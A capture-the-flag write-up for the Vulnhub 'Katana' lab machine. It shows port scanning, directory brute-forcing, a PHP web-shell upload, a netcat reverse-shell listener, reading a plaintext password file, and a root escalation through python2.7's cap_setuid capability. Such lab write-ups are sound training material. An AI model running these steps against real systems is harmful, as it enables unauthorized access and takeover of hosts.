 ```yaml
---
title: Vulnhub - Katana Writeup
description: My writeup on Katana box.
categories:
 - vulnhub
tags: vulnhub
---
```


Hi all, let's pwn this box.

You can find the machine there > [Katana](https://www.vulnhub.com/entry/katana-1,482/){:target="_blank"}

Let's start as always with a nmap scan.

```bash
$ ip=192.168.1.9
$ nmap -sC -sV -p- -oN nmap.txt $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-19 23:22 EEST
Nmap scan report for katana.zte.com.cn (192.168.1.9)
Host is up (0.00094s latency).
Not shown: 65527 closed ports
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 3.0.3
22/tcp   open  ssh         OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 89:4f:3a:54:01:f8:dc:b6:6e:e0:78:fc:60:a6:de:35 (RSA)
|   256 dd:ac:cc:4e:43:81:6b:e3:2d:f3:12:a1:3e:4b:a3:22 (ECDSA)
|_  256 cc:e6:25:c0:c6:11:9f:88:f6:c4:26:1e:de:fa:e9:8b (ED25519)
80/tcp   open  http        Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Katana X
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.9.5-Debian (workgroup: WORKGROUP)
7080/tcp open  ssl/http    LiteSpeed httpd
|_http-server-header: LiteSpeed
|_http-title: Katana X
| ssl-cert: Subject: commonName=katana/organizationName=webadmin/countryName=US
| Not valid before: 2020-05-11T13:57:36
|_Not valid after:  2022-05-11T13:57:36
|_ssl-date: 2020-05-19T20:23:01+00:00; +1s from scanner time.
| tls-alpn: 
|   h2
|   spdy/3
|   spdy/2
|_  http/1.1
8088/tcp open  http        LiteSpeed httpd
|_http-server-header: LiteSpeed
|_http-title: Katana X
8715/tcp open  http        nginx 1.14.2
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=Restricted Content
|_http-server-header: nginx/1.14.2
|_http-title: 401 Authorization Required
MAC Address: 00:0C:29:7E:18:F9 (VMware)
Service Info: Host: KATANA; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

Lot of ports, i did enumeration on every port and i found an interesting upload function on port `8088`, let's run `gobuster`.

```bash
$ gobuster dir -u http://$ip:8088/ -w /usr/share/dirbuster//wordlists/directory-list-2.3-medium.txt -x php,txt,html -o gobuster.txt
/index.html (Status: 200)
/cgi-bin (Status: 301)
/img (Status: 301)
/docs (Status: 301)
/upload.html (Status: 200) <----
/upload.php (Status: 200)
/css (Status: 301)
````
![](https://i.ibb.co/PxL0Rfp/Screenshot-2.png)

Lets upload a shell.

When we upload a shell gives us this message :

`Moved: /tmp/phpm2yZ8a ====> /opt/manager/html/katana_shell.php`

If we try to execute this file says `not found`.

```bash
$ curl -s http://$ip:8088/katana_shell.php
<html>
  <head>
    <title>Page Not Found</title>
  </head>
<body bgcolor="#ffffff">
<hr>
<h1>Request Page Not Found</h1>
This is a customized error page for missing pages. 
<hr>
</body>
</html>
```

I coded a bash script for that, to search where the shell is.

```bash
ports='80 7080 8088 8715'
for data in $ports;do 
    curl -s -X GET http://$ip:$data/katana_shell.php
done
```

& one-liner

```bash
ports='80 7080 8088 8715'; for data in $ports; do curl -s -X GET http://$ip:$data/katana_shell.php; done
```

And we have shell!

```bash
$ nc -lvp 5555
listening on [any] 5555 ...
$ python -c 'import pty; pty.spawn("/bin/bash")'
www-data@katana:/$ whoami
whoami
www-data
```

We can privesc to `katana` user really easy, at his directory has the password.

```bash
www-data@katana:/home/katana$ cat .ssh_passwd
cat .ssh_passwd
katana@katana12345
www-data@katana:/home/katana$ su - katana
su - katana
Password: katana12345
katana@katana:~$ whoami
whoami
katana
katana@katana:~$ 
```

Now for root privesc, is a really interesting way, through capabilities!

Linux capabilities are something like the SUID, but can limit user’s permission and much more!

Let's scan the file system for files with capabilities with `getcap`

```bash
katana@katana:~$ /sbin/getcap -r / 2>/dev/null
/sbin/getcap -r / 2>/dev/null
/usr/bin/ping = cap_net_raw+ep
/usr/bin/python2.7 = cap_setuid+ep
```

Bingo! `python2.7` has the `cap_setuid`, let's exploit it!

```bash
katana@katana:~$ python2.7 -c 'import os; os.setuid(0); os.system("/bin/bash")'
root@katana:~# cd /root
cd /root
root@katana:/root# cat root.txt
cat root.txt
{R00t_key_Katana_91!}
```

Easy one, See you!

